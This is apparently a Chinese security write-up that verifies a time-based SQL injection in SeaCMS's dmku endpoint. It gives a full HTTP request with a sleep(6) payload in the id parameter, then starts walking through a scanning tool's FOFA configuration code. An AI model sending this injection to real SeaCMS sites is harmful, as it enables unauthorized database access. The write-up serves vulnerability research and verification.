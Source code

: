 漏洞验证  
  
POC  

```
GET /js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(6)))x)&type=list HTTP/1.1
Host: seacms:8181
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(0)))x)&type=list
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM
Connection: keep-alive

```

  
效果如图，可以发现确实延迟了 6 秒  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZHUVib4pMZh5rV7CJ3asoFDrxbE4MJSdicricPxNQP89SDSAjl7EEJUD5g/640?wx_fmt=png&from=appmsg "null")  
  
## 工具利用过程  
  
首先就是看工具的逻辑是如何添加漏洞的  
  
首先看主文件  
  
代码很长，说一下我们需要注意的点，首先就是配置,对于的 fofa 配置如下  
  
需要你进入工具的时候配置邮箱和 key  

```
def fofa_saveit_first():
    email = fofa_text1.get()
    key = fofa_text2.get()
    with open(&#34;fofa配置.conf&#34;,&#34;a+&#34;) as f:
        f.write(f&#34;[data]\nemail={email}\nkey={key}&#34;)
        f.close()
    showinfo(&#34;保存成功！&#34;,&#34;请继续使用fofa搜索模块！下一次将自动读取，不再需要配置！&#34;)
    text3.insert(END,f&#34;【+】保存成功！请继续使用fofa搜索模块！下一次将会自动读取，不再需要配置！您的email是：{email}；为保护您的隐私，api-key不会显示。\n&#34;)
    text3.see(END)
    fofa_info.destroy()
def fofa_saveit_twice():
    global email_r,key_r
    if not os.path.exists(&#34;fofa配置.conf&#34;):
        fofa_saveit_first()
    else:
        email_r = getFofaConfig(&#34;data&#34;, &#34;email&#34;)
        key_r = getFofaConfig(&#34;data&#34;, &#34;key&#34;)
def fofa_info():
    global fofa_info,fofa_text1,fofa_text2,fofa_text3
    fofa_info= tk.Tk()
    fofa_info.title(&#34;fofa配置&#34;)
    fofa_info.geometry('230x100')
    fofa_info.resizable(0, 0)
    fofa_info.iconbitmap('logo.ico')
    fofa_email = tk.StringVar(fofa_info,value=&#34;填注册fofa的email&#34;)
```
